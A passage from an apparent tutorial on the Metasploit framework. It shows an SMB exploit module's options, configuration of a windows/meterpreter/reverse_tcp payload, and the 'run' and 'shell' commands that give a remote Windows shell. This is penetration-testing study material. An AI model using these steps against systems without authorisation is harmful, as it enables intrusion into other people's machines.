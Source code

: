 ```console
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

With the command `set <option> <value>` we can modify them:
```console
msf6 > set RHOSTS <ip>
```

> With `setg` we can set a value permanent.
{: .prompt-tip}

Once we finish with the options we can start the exploit, with `run` or `exploit`:
```console
msf6 > run

...

meterpreter> shell

C:\Windows\system32> 
```

> We can run `check` before. Not all the exploits allow it.
{: .prompt-tip}

The command `shell` will give us a reverse shell after an exploit, if we succesfully have the **meterpreter**.

## Targets

Targets are unique operating system identifiers taken from the versions of those specific operating systems which adapt the selected exploit module to run on that particular version of the operating system.
